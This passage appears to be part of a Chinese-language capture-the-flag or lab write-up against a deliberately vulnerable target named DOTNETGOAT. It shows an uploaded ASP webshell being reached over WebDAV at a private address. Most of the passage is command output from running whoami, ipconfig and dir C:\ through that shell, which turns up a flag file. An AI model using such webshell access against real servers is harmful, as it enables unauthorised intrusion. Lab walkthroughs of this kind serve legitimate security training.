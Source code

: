 
访问上传的asp webshell:

```
http://10.0.28.114/webdav/webshell.asp
```

```
\\DOTNETGOAT\bob10.0.28.114


The server's port:
80


The server's software:
Microsoft-IIS/10.0


The server's local address:
10.0.28.114

```

执行命令：

```
whoami

iis apppool\defaultapppool
```

```
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : ap-southeast-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::20e5:378b:e470:2dad%4
   IPv4 Address. . . . . . . . . . . : 10.0.28.114
   Subnet Mask . . . . . . . . . . . : 255.255.240.0
   Default Gateway . . . . . . . . . : 10.0.16.1

```

```
dir C:\

Volume in drive C has no label.
 Volume Serial Number is 9E32-0E96

 Directory of C:\

11/14/2018  06:56 AM    
          EFI
01/02/2021  01:01 PM                32 flag.txt
10/27/2020  06:45 AM    
          inetpub
05/13/2020  05:58 PM    
          PerfLogs
10/27/2020  02:18 PM    
          Program Files
10/27/2020  02:18 PM    
          Program Files (x86)
10/27/2020  02:21 PM    
```